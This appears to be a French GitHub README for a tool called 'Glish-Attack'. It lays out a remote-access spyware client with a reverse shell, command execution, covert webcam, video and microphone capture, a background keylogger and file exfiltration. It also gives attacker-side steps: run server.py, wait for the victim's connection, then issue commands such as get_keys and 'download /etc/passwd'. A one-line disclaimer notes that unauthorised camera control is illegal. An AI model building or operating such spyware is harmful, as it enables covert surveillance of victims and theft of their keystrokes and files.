 # Glish-Attack (HACKING ETHIQUE)

## Rmq:Prendre le contrôle de la caméra sans autorisation est illégal 

#### Voici le plan du script client (victime) qu’on va créer :
🔁 Fonctions de base
* Connexion reverse shell
* Exécution de commandes shell

- 🎥 Surveillance
- 📸 Capture webcam (photo)
- 🎬 Capture vidéo (10 sec)
- 🎙️ Enregistrement audio (10 sec via micro)
- ⌨️ Espionnage
- ⌨️ Keylogger en fond
- 💾 Exfiltration de fichiers
- 📁 Navigation et lecture de fichiers

#### On va utiliser :

```bash
pip install opencv-python sounddevice scipy pynput
```
* Webcam	`cv2` (OpenCV)
* Microphone	`sounddevice, scipy.io.wavfile`
* Keylogger	`pynput`
* Transfert fichier	`base64, open()`


#### 🔐 Fonctionnalités incluses :
Fonction	Commande côté serveur

* 📸 Webcam (photo)	>> webcam_snap
* 🎥 Vidéo (10s)	>> video_capture
* 🎙️ Audio (10s)	>> record_audio
* ⌨️ Keylogger	>> get_keys
* 📂 Télécharger fichier >> 	download /chemin/fichier
* 📁 Changer de dossier >> 	cd chemin
* ❌ Fermer la connexion >>	exit

#### 🚀 Utilisation côté attaquant (serveur)
1. Lance le serveur :

```bash
python3 server.py
```
2. Attends la connexion du client

Une fois connecté, tape des commandes :

```ruby
>> webcam_snap
>> video_capture
>> record_audio
>> get_keys
>> download /etc/passwd
>> cd /home/user
>> exit
```
